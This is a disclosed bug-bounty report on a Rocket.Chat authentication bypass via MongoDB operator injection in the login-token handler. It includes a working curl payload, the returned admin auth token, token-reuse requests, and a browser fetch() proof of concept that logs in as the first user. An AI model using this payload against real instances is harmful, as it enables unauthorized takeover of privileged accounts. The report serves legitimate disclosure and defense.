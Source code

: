 # Authentication Bypass in login-token Authentication Method

## Report Details
- **Report ID**: 1447619
- **URL**: https://hackerone.com/reports/1447619
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-01-12T01:53:41.301Z
- **Disclosed**: 2024-08-10T21:57:39.310Z

## Reporter
- **Username**: gronke
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rocket_chat

## Vulnerability Information
## Summary

Improper input data validation in the `login-token` authentication method leads to an authentication bypass.

## Description

Data from HTTP POST requests is forwarded to hardcoded Login Handlers, including the `login-token` method defined in [app/token-login/server/login_token_server.js#L10](https://github.com/RocketChat/Rocket.Chat/blob/a06e811ceeef6f674ff8c38e49ddcf0f476d9683/app/token-login/server/login_token_server.js#L10).

```javascript
Accounts.registerLoginHandler('login-token', function (result) {
	if (!result.loginToken) {
		return;
	}

	const user = Meteor.users.findOne({
		'services.loginToken.token': result.loginToken,
	});

	if (user) {
		Meteor.users.update({ _id: user._id }, { $unset: { 'services.loginToken': 1 } });

		return {
			userId: user._id,
		};
	}
});
```

The `result.loginToken` parameter is taken from the HTTP POST requests JSON body of the `/api/v1/login` route, so that Mongo DB injection returns a valid authToken for the first matching user. 

```console
$ curl -s 'http://127.0.0.1:3000/api/login' -H "Content-Type: application/json" -d '{"loginToken": { "$exists": false }}' | head
{
  "status": "success",
  "data": {
    "userId": "rocket.cat",
    "authToken": "MnTHVIRTZfRBQiFQYzWZ1xbBlL4BUwK2-3UBWTftXpB",
    "me": {
      "_id": "rocket.cat",
      "avatarOrigin": "local",
      "name": "Rocket.Cat",
      "username": "rocket.cat",
```

Typically the first user in a Rocket.Chat MongoDB database is `rocket.cat`, which is a privileged account. This can be confirmed by using the returned secret in an API call to `/api/v1/me`:

```console
$ curl -H "x-user-id: rocket.cat" -H "x-auth-token: MnTHVIRTZfRBQiFQYzWZ1xbBlL4BUwK2-3UBWTftXpB" http://127.0.0.1:3000/api/v1/me              
{                                                                                                                                                                        
  "_id": "rocket.cat",                                                                                                                                                   
  "avatarOrigin": "local",                                                                                                                                               
  "name": "Rocket.Cat",                                                                                                                                                  
  "username": "rocket.cat",                                                                                                                                              
  "status": "away",                                                                                                                                                      
  "statusDefault": "online",                                                                                                                                             
  "utcOffset": 1,                                                                                                                                                        
  "active": true,                                                                                                                                                        
  "_updatedAt": "2022-01-12T01:45:57.208Z",                                                                                                                              
  "roles": [
    "bot"
  ],
```

When loginToken is legitimately used an attacker would need to switch the strategy from using `$empty` to `$regex` instead.

## Releases Affected:

  * 4.3.1
  * 3.18.3
  * develop

## Steps To Reproduce (from initial installation to vulnerability):

  1. Open Rocket.Chat (logged out)
  2. Open Web Inspector
  3. Run PoC Request

## Supporting Material/References:

### Proof of Concept

```javascript
fetch("/api/v1/login", {
  method: "POST",
  body: '{"loginToken": { "$exists": false }}',
  headers: {
    "Content-Type": "application/json"
  }
})
.then(res => res.json())
.then(({ data: { userId, authToken }}) => {
  console.log(`login as ${userId}`)
  Meteor._localStorage.setItem(Accounts.USER_ID_KEY, userId);
  Meteor._localStorage.setItem(Accounts.LOGIN_TOKEN_KEY, authToken);
  window.location.reload()
});
```

## Suggested mitigation

  * Validate `result.loginToken` input data in loginToken auth handler.

## Impact

Unauthenticated clients can bypass the login and obtain administrative access to the Rocket.Chat instance.

## Attachments
No attachments
